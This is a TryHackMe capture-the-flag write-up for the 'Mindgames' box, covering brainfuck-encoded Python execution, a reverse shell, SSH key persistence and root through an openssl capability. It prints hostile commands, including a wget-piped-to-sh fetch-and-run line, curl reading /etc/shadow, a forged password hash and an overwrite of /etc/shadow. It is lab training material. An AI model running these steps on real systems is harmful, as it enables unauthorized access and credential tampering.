 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)

Okay this seems to be a dead end..

[![https://imgur.com/ksaBlg1.png](https://imgur.com/ksaBlg1.png)](https://imgur.com/ksaBlg1.png)

Lets look for other ways to proceed!
We found cap_setsuid ! 
[![https://imgur.com/HEP67KP.png](https://imgur.com/HEP67KP.png)](https://imgur.com/HEP67KP.png)

[![https://imgur.com/eWFs7uR.png](https://imgur.com/eWFs7uR.png)](https://imgur.com/eWFs7uR.png) CREDS TO: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities

[![https://imgur.com/zXzZZff.png](https://imgur.com/zXzZZff.png)](https://imgur.com/zXzZZff.png)


Here a short summary taken from the medium article full credits go to him (his name is: Z3R0 ): 

The following part i had to research and i found this awsome medium article about Linux Capabilities and how to use openssl
 with the capability set to ep to get root.

AGAIN CREDIT TO: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

Come here again when you fully understood it and give a good summary in own words.

1. So far i understood that you can use openssl to create keys and certificates. -> So we can create a keys and certificates
2. You can also start a server running with openssl. -> We can start a server with that keys and certificates
3. Depending on where you are when you have the capability of ep set on openssl it will inherit the permission from the location. -> We start the server with openssl in the / directory.
That means if you start the server from a low privileged userdirectory you will inherit that permission but if you create it in the / directory the server will inherit root permission.
4. We can access this server with wget or curl from our normal user. -> We can do something like: curl -k "https://127.0.0.1:1337/etc/shadow"
5. Now that we have a copy of the /etc/shadow file we can create our own password hash with openssl and with that we can replace the hash for the root user in the file. -> openssl passwd -6 -salt xyz  yourpass
6. Now we want to overwrite the orginial /etc/shadow file to do that we have to encrypt our new shadowfile otherwise we can't transport it over openssl.
7. Now we can overwrite the original file. -> /openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/privkey.pem -out /etc/shadow
8. We can switch User to root now since we created the new password!


The command for creating a private key and a certificate with openssl is:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

with the nodes option you avoid giving a passphrase.

Now we start the server in the root directory:

openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

Now that the server is running we can curl the resource we want!

curl -k "https://127.0.0.1:1337/etc/shadow" ( We could also just curl the root.txt :D )

The reason why need we need -k or --insecure
[![https://imgur.com/7AorKEQ.png](https://imgur.com/7AorKEQ.png)](https://imgur.com/7AorKEQ.png)


In case you get an error try following this solutions:

[![https://imgur.com/wJONvdY.png](https://imgur.com/wJONvdY.png)](https://imgur.com/wJONvdY.png)

It worked for me.

